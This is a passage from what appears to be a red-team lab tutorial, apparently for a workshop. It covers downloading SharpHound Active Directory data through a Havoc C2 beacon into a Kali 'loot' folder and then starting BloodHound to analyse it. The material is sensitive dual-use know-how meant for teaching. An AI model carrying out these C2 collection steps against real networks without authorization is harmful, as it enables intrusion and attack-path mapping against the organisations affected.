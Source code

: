 ## Retrieving SharpHound Data

Once `SharpHound.exe` completes execution successfully, you’ll see the output in the Beacon console.

This indicates that SharpHound has finished collecting data and created a .zip archive (in `C:\loot\ or a specified output directory).

![image](https://github.com/user-attachments/assets/0b07bfa6-42df-464a-bb59-eb34048fca94)


### Downloading the Collected Data
In the beacon tab:
1. Confirm the output file name and size:
```
ls
```
2. Download the file to Havoc:
```
download c:\loot\YYYYMMDDHHMMSS_BloodHound.zip
```

3. Let's locate the downloaded SharpHound `.zip` file on the Kali machine

Open a new tab on the File Manager (Documents) and go to:
```
/home/kali/Havoc/Data/loot/
```
The file should be in the folder `/home/kali/Havoc/Data/loot/[Date_time]/agents/[random string]/download/c:/loot/YYYYMMDDHHMMSS_BloodHound.zip`

![image](https://github.com/user-attachments/assets/dcf39b1a-7e40-468a-ad7d-81e0420ff8f2)

4. Copy the `zip` file to another directory. (you can create a new folder like `/home/kali/bh`)

## BloodHound — Ingestion & Graph-Based Analysis

With the SharpHound `.zip` file retrieved from the target, we now proceed to BloodHound.

###  Step 1: Start BloodHound
1. Start Bloodhound on a new Terminal tab:
```bash
bloodhound 
```  

<img width="1570" height="1285" alt="image" src="https://github.com/user-attachments/assets/64663672-8156-4cf4-be5d-171b01df4fd7" />


2. Access the BloodHound GUI (Web Interface)
```
http://127.0.0.1:8080/ui/login
```
3. Enter the following credentials to log in:
- Email Address `admin`
- password: `Credentials will be provided during the presentation`
